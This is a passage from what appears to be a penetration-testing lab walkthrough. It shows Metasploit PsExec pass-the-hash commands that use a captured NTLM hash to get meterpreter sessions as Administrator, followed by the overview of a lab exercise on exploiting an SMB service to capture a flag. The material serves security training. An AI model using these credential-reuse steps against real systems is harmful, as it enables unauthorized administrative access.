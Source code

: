 We can also authenticate as the student account. And then set the SMB password to the student password hash.

```
set SMBUser student
set SMBPass aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889
exploit
```

We need to specify the LPORT option, because port 4444 is currently being used.

```
set LPORT 4433
exploit
```

In this case, it looks like we cannot authenticate as the student.

As long as we have access with or through the Administrator crdentials. Then we pretty much have Administrative access on the target.

And we can do this as many times as we want.

```
sessions 2
exit
```

```
set SMBUser Administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889
exploit
```

Only the Administrator account works. And we can't log in as the student account.

That's one of the great things about gathering hashes or credentials is that you can use them to authenticate legitimately or to perform authenticated code execution, and in this case, obtain a meterpreter session.

That is how to perform the pass-the-hash attack with PsExec module.

# Windows: SMB Server PSexec（Windows：SMB 服务器 PSexec）
## Overview（概述）
A Kali GUI machine and a target machine running a vulnerable SMB service are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target). 

Your task is to fingerprint the SMB service using the tools available on the Kali machine and then exploit the vulnerability using the Metasploit framework. You need to find valid credentials to access the SMB service and abuse the service with available SMB Metasploit exploitation modules.

Objective: Exploit the SMB service to get a meterpreter on the target and retrieve the flag!

Instructions:

* Your Kali machine has an interface with IP address 10.10.X.Y. Run “ip addr” to know the values of X and Y.
* The IP address of the target machine is mentioned in the file “/root/Desktop/target”
* Do not attack the gateway located at IP address 192.V.W.1 and 10.10.X.1
